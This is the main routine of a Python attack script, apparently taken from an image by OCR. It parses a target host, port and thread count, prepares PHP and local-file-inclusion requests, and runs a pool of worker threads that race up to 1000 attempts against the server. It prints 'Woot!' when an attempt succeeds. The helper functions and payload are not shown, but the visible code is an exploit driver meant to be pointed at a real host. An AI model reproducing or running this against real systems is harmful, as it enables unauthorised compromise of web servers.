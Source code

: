 ```

    if len(sys.argv) < 2:
        print("Usage: %s host [port] [threads]" % sys.argv[0])
        sys.exit(1)

    try:
        host = socket.gethostbyname(sys.argv[1])
    except socket.error as e:
        print("Error with hostname %s: %s" % (sys.argv[1], e))
        sys.exit(1)

    port=80
    try:
        port = int(sys.argv[2])
    except IndexError:
        pass
    except ValueError as e:
        print("Error with port %d: %s" % (sys.argv[2], e))
        sys.exit(1)

    poolsz=10
    try:
        poolsz = int(sys.argv[3])
    except IndexError:
        pass
    except ValueError as e:
        print("Error with poolsz %d: %s" % (sys.argv[3], e))
        sys.exit(1)

    print("Getting initial offset...", end=' ')
    reqphp, tag, reqlfi = setup(host, port)
    offset = getOffset(host, port, reqphp)
    sys.stdout.flush()

    maxattempts = 1000
    e = threading.Event()
    l = threading.Lock()

    print("Spawning worker pool (%d)..." % poolsz)
    sys.stdout.flush()

    tp = []
    for i in range(0,poolsz):
        tp.append(ThreadWorker(e,l,maxattempts, host, port, reqphp, offset, reqlfi, tag))

    for t in tp:
        t.start()
    try:
        while not e.wait(1):
            if e.is_set():
                break
            with l:
                sys.stdout.write( "\r% 4d / % 4d" % (counter, maxattempts))
                sys.stdout.flush()
                if counter >= maxattempts:
                    break
        print()
        if e.is_set():
            print("Woot!  \m/")
        else:
            print(":(")
    except KeyboardInterrupt:
        print("\nTelling threads to shutdown...")
```